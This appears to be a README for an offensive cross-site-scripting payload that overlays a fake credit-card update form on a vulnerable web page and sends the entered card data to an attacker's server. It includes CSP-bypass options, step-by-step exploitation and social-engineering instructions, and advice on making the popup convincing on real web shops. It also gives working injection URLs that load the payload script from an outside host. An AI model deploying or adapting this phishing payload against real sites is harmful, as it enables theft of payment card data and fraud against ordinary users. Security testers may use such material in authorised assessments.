 # [unauthn] Credit Card Update Form (Phish)

<p align="justify">This payload adds HTML code as an overlay to the target web page (containing the XSS vulnerability). The code displays a Credit Card Update popup form. If blended in the application's context sufficiently, once they encounter such a prompt, most users have a (proven) tendency to blindly provide it requested information (which contributes to a higher success rate of such phishing attacks).<p>

Typical use-case scenarios:
* external network perspective (Internet)
  * B2C website
    * web shop
    * web support
    * public web
  * **NOTE**: if possible, leverage additional available functionality of the target web application to make the popup form appear (even) more convincing (e.g. using JavaScript, open the chat widget and display an appropriate phishing message to the victim user and display the form afterwards)

The payload (`ccphish.js`) supports the following options:

* no CSP bypass - issue AJAX request (i.e. client-side redirect)

  ```
  ...
  let bypassCSP = false;
  ...
  ```

* CSP bypass - issue hard redirect (uses `redir.php`; i.e. server-side redirect)

  ```
  ...
  let bypassCSP = true;
  ...
  ```

* run payload once - sets a cookie, once payload is executed; used to prevent further payload executions

  ```
  ...
  let runOnce = true;
  ...
  ```

## Live Example

* *(live example - OWASP juice shop - reflected XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22with(document)body.appendChild(createElement(%27script%27)).src%3D%27%2F%2Fcdn.jsdelivr.net%2Fgh%2Flighthouseitsecurity%2FweaponizedXSS%2FCredCardPhishing%2FccphishLiveExample.js%27%3B%22%3E

## Test Environment

### Web Browsers (20250806)

* [x] Mozilla Firefox 141.0.2 (64-bit)
* [x] Google Chrome 139.0.7258.67 (64-bit)
* [x] Microsoft Edge 138.0.3351.121 (64-bit)

### Vulnerable Page

http://testphp.vulnweb.com/listproducts.php?cat=XSS_PAYLOAD_HERE

## Exploitation Steps

1. [setup exploit] adapt to target environment

    * change logo (image + displayed dimensions)
    * modify CSS (scenario-dependent)

3. [setup exploit] change payload variable values (`ccphish.js`; `redir.php`)

    `attWsPhishPath` - exfiltration web server URL (i.e. scheme + FQDN + port + path; use trailing slash)

    `bypassCSP` - use/do not use CSP bypass (true/false)

    `runOnce` - execute payload only once (true/false)

    `url` - exfiltration web server URL

4. [setup exploit] setup web server (to serve the payload/redirector)

5. [social engineering attack] victim user clicks link

    ```
    http://testphp.vulnweb.com/listproducts.php?cat=<script src=http://192.168.5.5/ccphish.js></script>
    ```

    * **NOTES**:
      * `testphp.vulnweb.com` - target site
      * `192.168.5.5` - web server hosting the payload

6. [social engineering attack] victim user provides requested information

    *(attacker obtains PII data)*

7. [post exploit] attacker leverages obtained PII data

## Screenshots

* **NOTE**: the screenshot covers steps 2 to 5 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CredCardPhishing/screenshots/CredCard_phish_-_PII_exfil_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CredCardPhishing/screenshots/CredCard_phish_-_PII_exfil_-_1-1.png">
    </picture>
  </kbd>
</p>

* [web browser rendering] Mozilla FireFox

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CredCardPhishing/screenshots/CredCard_phish_-_web_browser_rendering_-_Mozilla_FireFox_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CredCardPhishing/screenshots/CredCard_phish_-_web_browser_rendering_-_Mozilla_FireFox_-_1-1.png">
    </picture>
  </kbd>
</p>

* [web browser rendering] Google Chrome

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CredCardPhishing/screenshots/CredCard_phish_-_web_browser_rendering_-_Google_Chrome_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CredCardPhishing/screenshots/CredCard_phish_-_web_browser_rendering_-_Google_Chrome_-_1-1.png">
    </picture>
  </kbd>
</p>

* [web browser rendering] Microsoft Edge

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CredCardPhishing/screenshots/CredCard_phish_-_web_browser_rendering_-_Microsoft_Edge_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CredCardPhishing/screenshots/CredCard_phish_-_web_browser_rendering_-_Microsoft_Edge_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/8d47b495-6fef-4059-b3dc-aaa31655a748
